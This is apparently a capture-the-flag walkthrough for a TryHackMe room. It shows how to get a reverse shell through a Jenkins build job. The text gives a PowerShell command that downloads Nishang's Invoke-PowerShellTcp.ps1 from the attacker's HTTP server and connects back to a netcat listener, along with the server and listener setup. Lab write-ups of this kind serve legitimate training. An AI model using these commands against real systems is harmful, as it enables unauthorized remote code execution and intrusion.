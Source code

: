 Ok, so the idea is this, we'll locally create a **Python3 HTTP Server** to serve the PowerShell script we get from **Nishang**  and we add the command to retrieve that script from our local sever into the Jenkin's Job build command.

Ok so looking at **Nishang's** folder we see that we have all scripts categorized. We'll be attempting to get a reverse shell, so let's look inside **/nishang/Shells/** 

From the room's hint we already know we are looking for, **Invoke-PowerShellTcp.ps1**

So let's get this file shared in our local HTTP server.
We navigate to the **Shells** folder and fire up our server like this:

```bash
sudo python3 -m http.server
```
We should see something like this:
```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
So our server is ready. Let's get that command set on the Jenkins job next.

Ok, let's review the command. We need to make some adjustments before we paste it into Jenkins.

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

We need to change the **IP and Port**  and also make sure we specify a port value for our reverse shell. So this full command would attempt to connect to our local server to get the PS script and then open a reverse shell on a specific port to connect to our local listener(we'll do that in a bit).

> **Remember to get your correct IP when connected to THMs VPN. It is usually tun0. Run _ip add_ command to see your IP.**


In my case the command will look like this:  
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.13.0.34:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.13.0.34 -Port 6666
```

We have the command ready, we are just missing one tiny crucial part. We need to open a local listener on port 666 so our exploit can successfully open a reverse shell. Let's do that. 

In a terminal window start a **netcat** listener on port **6666**.

```bash
sudo nc -lvp 6666
listening on [any] 6666 ...
```
That's done, now to paste our full command into the Jenkins Job Build command section.


![We enter our exploit command](https://i.imgur.com/aWPWDUy.png)
After we enter the command, we click on the **Save** button to save the changes.

Then we go back to the main project details page.
Let's trigger a new build by clicking on **Build Now** button so we see if your command runs fine.
